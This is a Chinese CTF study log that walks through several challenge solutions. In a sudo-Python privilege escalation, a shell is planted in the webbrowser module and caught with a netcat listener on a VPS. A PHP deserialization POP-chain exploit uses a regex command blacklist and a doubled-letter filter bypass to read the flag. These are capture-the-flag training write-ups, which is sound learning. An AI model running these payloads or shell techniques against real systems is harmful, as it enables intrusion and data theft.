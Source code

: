 <a name="QTz5G"></a>
## 本周内容
1.ISCTF完赛<br />2.开源情报
<a name="Qkacc"></a>
## 成果展示
<a name="o9pzY"></a>
### 1.sudopy
find / -writable -type f 2>/dev/null | grep -v "/proc/"查找可写文件<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/39135006/1701190533740-49e9af00-bd5a-4908-a3e7-a3c401b31598.png#averageHue=%23141414&clientId=u49f049e0-c036-4&from=paste&height=140&id=u61547b5e&originHeight=140&originWidth=881&originalType=binary&ratio=1&rotation=0&showTitle=false&size=17096&status=done&style=none&taskId=u25e66e74-e7ec-4a5f-9cb0-4de5de4d570&title=&width=881)<br />写入webbrowser pyshell<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/39135006/1701190465015-63213eeb-2e78-4ef8-9501-41760a8e082f.png#averageHue=%23101010&clientId=u49f049e0-c036-4&from=paste&height=768&id=ue41b651f&originHeight=768&originWidth=1280&originalType=binary&ratio=1&rotation=0&showTitle=false&size=102678&status=done&style=none&taskId=u00b99c00-c9c5-4083-90f9-164ab26d33d&title=&width=1280)<br />sudo python3 /home/ctf/web.py<br />起VPS连接服务器<br />nc -lvp 25565<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/39135006/1701190706638-d6460caf-dd9b-434f-8f99-0af7eaeaa86f.png#averageHue=%230e0e0e&clientId=u49f049e0-c036-4&from=paste&height=768&id=uaf538590&originHeight=768&originWidth=1280&originalType=binary&ratio=1&rotation=0&showTitle=false&size=55548&status=done&style=none&taskId=u0539af40-655d-46e8-979e-17c72804297&title=&width=1280)
<a name="rs4qG"></a>
### 2.curl
curl -T可以上传，-O可以下载<br />flag还可能会藏在env中，flag.txt中<br />在flag.txt中，可以使用fla[a-z]ggggggg.txt读取flag<br />看到登录框，得试一下ssti,XSS都得试
<a name="dIpXf"></a>
### 3.HECTF-ezphp
随机数生成
```php
<?php
  mt_srand(1442660857);
for($i=0;$i<1000;$i++){
  echo mt_rand()."\n";
}
```
取出随机数可以进行爆破
```php
if(unserialize($this->auth)=="zxk1ing"){
    $star = implode(array($this->obj,"⭐","⭐","⭐","⭐","⭐"));
    echo $star;
}
```
这个代码检查反序列化后的auth是否为zxk1ing<br />就需要把auth专门赋值<br />如果分开来写是不行的，会提示缺少一个参数<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/39135006/1701431603480-02b23a93-7c66-49be-a3b8-71680400f199.png#averageHue=%23242322&clientId=uae06cf3e-b1ef-4&from=paste&height=219&id=u2e1608cf&originHeight=219&originWidth=1775&originalType=binary&ratio=1&rotation=0&showTitle=false&size=48514&status=done&style=none&taskId=ub3b78b85-954a-499f-a5d9-400af3ae042&title=&width=1775)<br />需要合起来一块写
```php
$pop = new unser(new heeectf(),'s:7:"zxk1ing";');
echo serialize($pop);
```
然后是preg_replace的双写绕过
```php
<?php
highlight_file(__FILE__);
class GGbond{
    public $candy;
    public function __call($func,$arg){
        $func($arg);
    }
    public function __toString(){
        return $this->candy->str;
    }
}
class unser{
    public $obj;
    public $auth;
    public function __construct($obj,$name){
        $this->obj = $obj;
        $this->obj->auth = $name;
    }
    public function __destruct(){
        $this->obj->Welcome();
    }
}
class HECTF{
    public $cmd;
    public function __invoke(){
        echo "invoke";
        if($this->cmd){
            $this->cmd = preg_replace("/ls|cat|tac|more|sort|head|tail|nl|less|flag|cd|tee|bash|sh|&|^|>|<|\.| |'|`|\(|\"/i","",$this->cmd);
        }
        exec($this->cmd);
    }
}
class heeectf{
    public $obj;
    public $flag = "Welcome";
    public $auth = "who are you?";
    public function Welcome(){
        if(unserialize($this->auth)=="zxk1ing"){
            $star = implode(array($this->obj,"⭐","⭐","⭐","⭐","⭐"));
            echo $star;
        }
        else
            echo 'Welcome HECTF! Have fun!';
    }
    public function __get($get)
    {
        $func = $this->flag;
        return $func();
    }
}
new unser(new heeectf(),"user");
$data = $_POST['data'];
if(!preg_match('/flag/i',$data))
    unserialize($data);
else
    echo "想干嘛？？？"; 

$pop = new unser(new heeectf(),'s:7:"zxk1ing";');
$pop ->obj = new heeectf;
$pop ->obj ->auth = 's:7:"zxk1ing";';
$pop ->obj->obj = new GGbond();
$pop ->obj ->obj->candy = new heeectf;
$pop ->obj ->obj->flag = new HECTF;
$pop ->obj ->obj->flag->cmd = 'ccatat${IFS}/f*${IFS}|${IFS}tteeee${IFS}a';
echo serialize($pop);
```
最后是个16进制的绕过，改S就好了
